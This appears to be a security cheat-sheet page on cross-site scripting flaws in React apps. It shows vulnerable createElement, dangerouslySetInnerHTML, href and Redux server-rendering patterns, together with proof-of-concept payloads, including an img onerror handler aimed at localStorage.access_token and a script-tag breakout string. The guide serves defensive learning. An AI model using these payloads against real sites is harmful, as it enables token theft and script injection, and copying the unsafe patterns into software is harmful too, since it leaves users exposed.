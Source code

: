 # Controlling element type

The `createElement` function accepts a string in the `type` argument. If the string is controlled by a user it would be possible to create an arbitrary React component:

```javascript
// Dynamically create an element from a string stored in the backend
// stored_value is a user-controlled string
element_name = stored_value;
React.createElement(element_name, null);
```

However, this would result only in a plain, attribute-less HTML element (pretty useless).

# Injecting props

The `createElement` function accepts a list of attributes in the `props` argument. If the list is controlled by a user it would be possible to inject arbitrary props into the new element:

```javascript
// Parse user-supplied JSON and pass the resulting object as props
// stored_value is a user-controlled JSON string with attributes
props = JSON.parse(stored_value);
React.createElement("span", props);
```

You can use the following payload to set the `dangerouslySetInnerHTML` attribute:

```javascript
{"dangerouslySetInnerHTML" : { "__html": "<img src=x/ onerror=’alert(localStorage.access_token)’>" }}
```

# Explicitly setting dangerouslySetInnerHTML

If a user-supplied data is used to set the `dangerouslySetInnerHTML` attribute you can insert arbitrary JavaScript code:

```javascript
<div dangerouslySetInnerHTML={user_supplied} />
```

# Explicitly setting href

If a user-supplied data is used to set the `href` attribute you can insert a `javascript:` URL:

```javascript
<a href={user_supplied}>Link</a>
```

Some other attributes such as `formaction` in HTML5 buttons or HTML5 imports also can be vulnerable:

```javascript
// HTML5 button
<button form="name" formaction={user_supplied}/>
// HTML5 import
<link rel="import" href={user_supplied}>
```

# Abusing server-side rendering

If a user-controlled data is passed to code that relies on user generated content and input without proper sanitization you can inject arbitrary JavaScript code.

For example, the official [Redux](https://redux.js.org/) code sample for SSR was vulnerable to XSS ([the sample was fixed](https://redux.js.org/usage/server-rendering#inject-initial-component-html-and-state)):

```javascript
function renderFullPage(html, preloadedState) {
  return `
    <!doctype html>
    <html>
      <head>
        <title>Redux Universal Example</title>
      </head>
      <body>
        <div id="root">${html}</div>
        <script>
          window.__PRELOADED_STATE__ = ${JSON.stringify(preloadedState)}
        </script>
        <script src="/static/bundle.js"></script>
      </body>
    </html>
    `
}
```

In the above sample, result of the `JSON.stringify` function is assigned to a global variable in a `<script>` tag, this is the vulnerability. If a Redux store has the following value:

```javascript
{
    user: {
        username: "username",
        bio: "bio</script><script>alert(1)</script>"
    }
}
```

When a browser parses the page and encounters that `<script>` tag, it will continue reading until `</script>`. The browser will not read until the last curly bracket, instead, it will actually finish the script tag after `bio: "as`.

References:
- [The Most Common XSS Vulnerability in React.js Applications](https://medium.com/node-security/the-most-common-xss-vulnerability-in-react-js-applications-2bdffbcc1fa0)

# References

- [Exploiting Script Injection Flaws in ReactJS Apps](https://medium.com/dailyjs/exploiting-script-injection-flaws-in-reactjs-883fb1fe36c1)
